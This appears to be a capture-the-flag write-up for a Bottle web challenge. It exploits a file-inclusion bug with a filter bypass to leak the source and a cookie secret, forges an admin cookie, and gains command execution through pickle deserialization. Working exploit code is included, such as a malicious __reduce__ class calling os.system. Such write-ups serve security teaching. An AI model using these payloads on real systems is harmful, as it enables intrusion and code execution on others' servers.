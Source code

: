 
# description

we're given a simple site, it contains 3 links, when clicking on them it take us to a page where we can read the poem

![](/media//screenshot3.png)

# solution

examining the http request, each link send request to the `/show` endpoint with the variable `id`

![url](/media//Prompt_Injection_url.png)

the value of `id` is a filename, so let's try if the server has a lfi vulnerability

![screenshot](/media//lfi.png)

the server is indeed vulnerable, and after multiples tries, i was able to leak the source code of the server, if was allocated in `../app.py`, but `../app.py` allone won't work because there is a filter, and to skip it you just need to add `./` at the front

![app filter](/media//app_filter.png)

```py
from bottle import route, run, template, request, response, error
from config.secret import Vishwa
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=Vishwa)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=Vishwa)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=80)
```

now that we have the source code, we can see another endpoint `/sign` which checks the cookie if the user is a guest or an admin, and from the imports we can see that the secret used to generate the cookie is allocated in a file called `secret.py` in the `config` folder, we can easily leak it

![leaking secret.py](/media//leaking_secret.png)

now let's create a simple script that generate an admin cookie

```py
from bottle import route, run, template, request, response, error

@route('/')
def index():
    session = {"name": "admin"}
    response.set_cookie("name", session, secret=Vishwa)
    print(request.cookies.get("name"))  # Print the cookie value from the request
    return "Cookie set"

run(host='localhost', port=8080)
```

we run the script then visit `localhost:8080`

![admin_cookie](/media//admin_cookie.png)

using this cookie to send a request to `/sign` made us authenticate as admin, we didn't get the flag, after reading some documentations about bottle and the template engin it uses, the default folder where the templates are placed is `views`, i then leaked templates

![template](/media//guest_temp.png)
![template](/media//admin_temp.png)
![template](/media//index_temp.png)

i tried to test if i could enject a command in the name variable using template injection vulerbility, but that won't work since `name` should be eather `"guest"` or `"admin"` in order for the server to generate the template.

after some searching, i found that bottel uses the pickel python module to serialize the data, which mean the server is vulnerable to deserialization.

```py
from bottle import route, run, template, request, response, error

class exploit(object):
    def __init__(self):
        pass

    def __reduce__(self):
        import os
        return (os.system,("ls -al > /tmp/test",))

Vishwa = "trrrrrrrrrrrrryyyyyyyyyyyharddddddddd"

@route('/')
def index():
    session = {"name": exploit()}
    response.set_cookie("name", session, secret=Vishwa)
    print(request.cookies.get("name"))  # Print the cookie value from the request
    return "Cookie set"

run(host='localhost', port=8080)
```

after running this and send the malicious cookie to the `/sign` end point then leaking `/tmp/test` file, we finaly obtain a result

![](/media//screenshot.png)

we find that there is a `flag` file in the `/` directory, it only has executing permisions

![](/media//screenshot2.png)

and by executing it and redirecting the output to `/tmp/test` we obtain the flag

```py
class exploit(object):
    def __init__(self):
        pass

    def __reduce__(self):
        import os
        return (os.system,("/flag > /tmp/test",))
```

![](/media//flag.png)
